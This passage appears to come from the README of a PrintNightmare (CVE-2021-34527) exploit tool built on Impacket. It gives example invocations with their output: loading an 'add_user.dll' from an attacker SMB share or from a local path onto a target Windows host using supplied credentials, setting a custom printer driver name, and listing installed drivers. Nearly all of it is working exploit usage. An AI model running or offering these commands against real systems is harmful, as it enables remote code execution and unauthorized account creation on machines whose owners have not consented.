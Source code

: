 ### Examples

#### Exploitation

##### Remote DLL
```bash
$ ./printnightmare.py -dll '\\172.16.19.1\smb\add_user.dll' 'user:Passw0rd@172.16.19.128'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Enumerating printer drivers
[*] Driver name: 'Microsoft XPS Document Writer v5'
[*] Driver path: 'C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_18b0d38ddfaee729\\Amd64\\UNIDRV.DLL'
[*] DLL path: '\\\\172.16.19.1\\smb\\add_user.dll'
[*] Copying over DLL
[*] Successfully copied over DLL
[*] Trying to load DLL
[*] Successfully loaded DLL
```

##### Local DLL
```bash
$ ./printnightmare.py -dll 'C:\Windows\System32\spool\drivers\x64\3\old\1\add_user.dll' 'user:Passw0rd@172.16.19.128'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Enumerating printer drivers
[*] Driver name: 'Microsoft XPS Document Writer v5'
[*] Driver path: 'C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_18b0d38ddfaee729\\Amd64\\UNIDRV.DLL'
[*] DLL path: 'C:\\Windows\\System32\\spool\\drivers\\x64\\3\\old\\1\\add_user.dll'
[*] Loading DLL
[*] Successfully loaded DLL
```

Notice that the local DLL example doesn't abuse CVE-2021-34527 to copy over the DLL.

##### Custom name
```bash
$ ./printnightmare.py -dll '\\172.16.19.1\smb\add_user.dll' -name 'My Printer Driver' 'user:Passw0rd@172.16.19.128'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Enumerating printer drivers
[*] Driver name: 'My Printer Driver'
[*] Driver path: 'C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_18b0d38ddfaee729\\Amd64\\UNIDRV.DLL'
[*] DLL path: '\\\\172.16.19.1\\smb\\add_user.dll'
[*] Copying over DLL
[*] Successfully copied over DLL
[*] Trying to load DLL
[*] Successfully loaded DLL

$ ./printnightmare.py -list 'user:Passw0rd@172.16.19.128'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Enumerating printer drivers
Name:               Microsoft XPS Document Writer v4
Environment:        Windows x64
Driver path:        C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_18b0d38ddfaee729\Amd64\mxdwdrv.dll
Data file:          C:\Windows\System32\DriverStore\FileRepository\prnms001.inf_amd64_f340cb58fcd23202\MXDW.gpd
Config file:        C:\Windows\System32\DriverStore\FileRepository\prnms003.inf_amd64_9bf7e0c26ba91f8b\Amd64\PrintConfig.dll
```